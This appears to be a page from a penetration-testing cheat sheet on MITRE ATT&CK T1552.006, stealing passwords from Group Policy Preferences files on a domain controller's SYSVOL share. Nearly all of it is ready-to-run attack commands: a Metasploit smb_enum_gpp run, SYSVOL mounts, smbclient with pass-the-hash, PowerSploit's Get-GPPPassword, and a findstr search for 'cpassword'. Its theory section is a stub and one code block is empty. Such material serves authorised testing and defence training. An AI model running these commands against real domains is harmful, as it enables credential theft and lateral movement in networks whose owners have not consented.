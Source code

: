 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# 🛠️ Group Policies Preferences

## Theory

GPP \(Group Policy Preferences\) 

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
msfconsole or manually finding them by mounting and grep, or accessing and manually open everything

```bash
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set RHOSTS $DOMAIN_CONTROLLER
msf auxiliary(smb_enum_gpp) > set SMBDomain $DOMAIN
msf auxiliary(smb_enum_gpp) > set SMBUser $DOMAIN_USER
msf auxiliary(smb_enum_gpp) > set SMBPass $DOMAIN_PASSWORD
msf auxiliary(smb_enum_gpp) > run
```

or manually mount and grep

```bash
# anon
mount -t cifs //$DOMAIN_CONTROLLER/SYSVOL $Mount_target

# auth
mount -t cifs -o username=$DOMAIN_USER,password=$DOMAIN_PASSWORD,domain=$DOMAIN //$DOMAIN_CONTROLLER/SYSVOL/ $Mount_target
```

or manually smbclient from samba suite 

```bash
smbclient //$DOMAIN_CONTROLLER/SYSVOL -U $DOMAIN_USER
```

or smbclient.py from impacket

```bash
# Plaintext password
smbclient.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# Pass-the-hash
smbclient.py -hashes $LMhash:$NThash 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# Use the SYSVOL share
> use SYSVOL
```

then decrypt

gpp decrypt
{% endtab %}

{% tab title="Windows" %}
must run in a authenticated context, see [impersonation](../impersonation.md)

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a domain controller for groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

or manually with findstr

```bash
findstr /S /I cpassword \\$DOMAIN_CONTROLLER\sysvol\*.xml
```

or manually with use and open everything

```bash

```
{% endtab %}
{% endtabs %}

